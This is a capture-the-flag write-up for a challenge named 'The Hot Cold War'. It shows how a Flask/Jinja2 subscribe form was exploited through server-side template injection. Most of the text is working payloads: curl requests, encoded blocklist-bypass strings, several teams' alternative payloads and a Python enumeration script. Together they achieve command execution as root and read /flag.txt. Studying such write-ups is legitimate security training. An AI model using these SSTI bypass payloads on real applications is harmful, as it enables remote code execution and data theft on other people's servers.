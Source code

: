 # The Hot Cold War

## Description

The Bank of Spain launched a new website which might holds some really secretive insights of the bank blueprint. Find a way in to find a way out.

**Target URL** : [http://3.23.94.118:9000](http://3.23.94.118:9000/)

## Solution

Browsing to the given URL we see a subscribe form.

![](assets/subscribe.png)

The email value gets reflected in the response. 

![](assets/email.png)

This is safe against XSS vulnerability as its doing HTML encoding on the output. Looking at the response header we find that this application hosted using Python technology. 

```bash
curl http://3.23.94.118:9000/ -I
HTTP/1.1 200 OK
Server: Werkzeug/2.1.1 Python/3.9.7
Date: Wed, 13 Apr 2022 12:20:39 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2905
```

 We can try to test for Server Side Template Injection which is very common in Python applications. The below image can help in detecting the SSTI vulnerability. 

> Note: Image reference is taken from [PostSwigger](https://portswigger.net/web-security/server-side-template-injection) blog.

![](assets/ssti.png)

Trying `{{7*7}}` results in `49`.

```bash
curl -s "http://3.23.94.118:9000/subscribe?email=\{\{7*7\}\}" | grep '<p '
      </div><br/><center><p class="section-header">49 will now enabled to receive monthly newsletters and updates.</p>
```

Referring to [SwisskyRepo](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-ospopenread) SSTI payloads we can try below to execute the commands and read output.

```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```

```bash
curl -s "http://3.23.94.118:9000/subscribe?email=%7B%7B%20self._TemplateReference__context.cycler.__init__.__globals__.os.popen%28%27id%27%29.read%28%29%20%7D%7D" | grep '<p '
      </div><br/><center><p class="section-header">ah! we don&#39;t allow these characters</p>
```

It is blocking some characters. After some testing we can list the following blacklisted characters. 

```
__
classes
file
write
format
\x
application
builtins
request[request.
TemplateReference
context etc
```

We can try to form a payload by referring to [0day.work](https://0day.work/jinja2-template-injection-filter-bypasses/) blogpost. But that doesn't seem to work since this application is built using Python3 and `file` primitive doesn't exist. We have to find a work around. Taking the parameter splitting technique from the blogpost we can try to split the below working payload to bypass the blocklist.

```python
request.__class__.__mro__.last().__subclasses__().filtermap('__init__').filtermap('__globals__').filter('popen').first()
```

The below payload will work with Python3 bypassing the blocklists. 

```
{'us': '_', 'class': 'class', 'mro': 'mro', 'subclasses': 'subclasses', 'init': 'init', 'globals': 'globals', 'popen': 'popen', 'email': "{% set os = request|attr([request.args.us, request.args.us, request.args.class, request.args.us, request.args.us]|join)|attr([request.args.us, request.args.us, request.args.mro, request.args.us, request.args.us]|join)|last|attr([request.args.us, request.args.us, request.args.subclasses, request.args.us, request.args.us]|join)()|selectattr([request.args.us, request.args.us, request.args.init, request.args.us, request.args.us]|join)|map(attribute=[request.args.us, request.args.us, request.args.init, request.args.us, request.args.us]|join)|selectattr([request.args.us, request.args.us, request.args.globals, request.args.us, request.args.us]|join)|map(attribute=[request.args.us, request.args.us, request.args.globals, request.args.us, request.args.us]|join)|selectattr(request.args.popen)|first%}{{os.popen('id').read()}}"}
```

Let's encode the payload and send the request

```bash
curl -s 'http://3.23.94.118:9000/subscribe?us=_&class=class&mro=mro&subclasses=subclasses&init=init&globals=globals&popen=popen&email=%7B%25+set+os+%3D+request%7Cattr%28%5Brequest.args.us%2C+request.args.us%2C+request.args.class%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Cattr%28%5Brequest.args.us%2C+request.args.us%2C+request.args.mro%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Clast%7Cattr%28%5Brequest.args.us%2C+request.args.us%2C+request.args.subclasses%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%28%29%7Cselectattr%28%5Brequest.args.us%2C+request.args.us%2C+request.args.init%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Cmap%28attribute%3D%5Brequest.args.us%2C+request.args.us%2C+request.args.init%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Cselectattr%28%5Brequest.args.us%2C+request.args.us%2C+request.args.globals%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Cmap%28attribute%3D%5Brequest.args.us%2C+request.args.us%2C+request.args.globals%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Cselectattr%28request.args.popen%29%7Cfirst%25%7D%7B%7Bos.popen%28%27id%27%29.read%28%29%7D%7D' | grep '<p '
      </div><br/><center><p class="section-header">uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

Flag can be read from `/flag.txt`. 

```bash
curl -s 'http://3.23.94.118:9000/subscribe?us=_&class=class&mro=mro&subclasses=subclasses&init=init&globals=globals&popen=popen&email=%7B%25+set+os+%3D+request%7Cattr%28%5Brequest.args.us%2C+request.args.us%2C+request.args.class%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Cattr%28%5Brequest.args.us%2C+request.args.us%2C+request.args.mro%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Clast%7Cattr%28%5Brequest.args.us%2C+request.args.us%2C+request.args.subclasses%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%28%29%7Cselectattr%28%5Brequest.args.us%2C+request.args.us%2C+request.args.init%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Cmap%28attribute%3D%5Brequest.args.us%2C+request.args.us%2C+request.args.init%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Cselectattr%28%5Brequest.args.us%2C+request.args.us%2C+request.args.globals%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Cmap%28attribute%3D%5Brequest.args.us%2C+request.args.us%2C+request.args.globals%2C+request.args.us%2C+request.args.us%5D%7Cjoin%29%7Cselectattr%28request.args.popen%29%7Cfirst%25%7D%7B%7Bos.popen%28%27cat%20%2fflag.txt%27%29.read%28%29%7D%7D' | grep '<p '
      </div><br/><center><p class="section-header">ACVCTF{t3mpl4t3s_4r3_s0_c0mpl3x_th4n_u_1m4g1n3}
```



## Other Solutions

**Hack the Gibson**

It was discovered that double underlines `__`, hex encoded values (e.g. `\x5e`) and other words are not allowed in the user input. By looking at loads of writeups for SSTI filter bypasses, the following payload was constructed:

```
{{request["_"+"_class_"+"_"]["_"+"_mro_"+"_"][3]["_"+"_subclasses_"+"_"]()[350]('cat /flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
```

The offset value `350` was used to call the function `subprocess.Popen`. This specific function index was discovered by iterating over all elements of the returned array of the subclasses call. 

**Zimmermans** 

We also observed that `__` (double underscore) is blacklisted character. Finally we prepared a payload which is related to RCE, in this case we are reading `/flag.txt` using `cat` command.

```
{{request['app'+'lication']['_'+'_glo'+'bals_'+'_']['_'+'_bui'+'ltins_'+'_']['_'+'_imp'+'ort_'+'_']['os'].popen('cat /flag.txt').read()}}
```

**ID-IOT**

We came across this [link](https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f) to helped us to create final payload below:

```
{{()|attr(("_"*2,"class","_"*2)|join)|attr(("_"*2,"base","_"*2)|join)|attr(("_"*2,"subclasses","_"*2)|join)()|attr(("_"*2,"getitem","_"*2)|join)(350)('cat /flag.txt',shell=True,stdout=-1)|attr('communicate')()}}
```

**InitialShell**

This method is from [An Xun Cup 2020 official Writeup](https://xz.aliyun.com/t/8581#toc-4) What we learned , Let's go straight to the subject payload.

```
{%print(lipsum|attr(%22\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f%22))|attr(%22\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f%22)(%22os%22)|attr(%22popen%22)(%22cat+/flag.txt%22)|attr(%22read%22)()%}
```

**European Cyber Wolves**

We came to the conclusion that a few things are being filtered. The most tricky one that we absolutely need is double underscore. We found a way to bypass it and wrote the script below:

We first need to get the classes to find out which number Popen is for us to get command execution. We can do that with the script below:

```python
import requests
from bs4 import BeautifulSoup

url = ' http://3.23.94.118:9000/subscribe?email='
get_classes = """{{''|attr(["_"*2,"class","_"*2]|join)|attr(["_"*2,"base","_"*2]|join)|attr(["_"*2,"subclasses","_"*2]|join)()}}"""
res = requests.get(url=url + get_classes)
soup = BeautifulSoup(res.text, 'html.parser')
response = soup.find_all('p', class_='section-header')
print(str(response))
```

Then run it with the syntax below to carve out the position of Popen.

```bash
python3 ssti_exploit.py|recode html..ascii|recode html..ascii|sed 's/,/\n/g'|grep -n Popen

351: <class 'subprocess.Popen'>
```

Because it counts starting from 1, we need to subtract one from 351 because the library counts from 0.

```python
payload = """{{(''|attr(["_"*2,"class","_"*2]|join)|attr(["_"*2,"base","_"*2]|join)|attr(["_"*2,"subclasses","_"*2]|join)())[350]('cat /flag.txt',shell=True,stdout=-1).communicate()}}}}"""
```

We can clean this up a bit to just get the flag if we want to.

```bash
python3 ssti_exploit.py|grep -oE 'ACVCTF{.*}' --color=none|cut -c -47
ACVCTF{t3mpl4t3s_4r3_s0_c0mpl3x_th4n_u_1m4g1n3}
```

**Titans**

SSTI can be exploited to read server-side files. But the application was blocking any payload with double underscores. Our original payload needed double underscores as shown below.

```
{{ joiner.__init__.__globals__.os.popen('id').read() }}
```

But we can bypass the use of double underscores using the array/list notation. Our final payload was as follows:

```
{{ joiner["".join(["_","_init_","_"])]["".join(["_","_globals_","_"])].os.popen('cat /flag.txt').read() }}
```

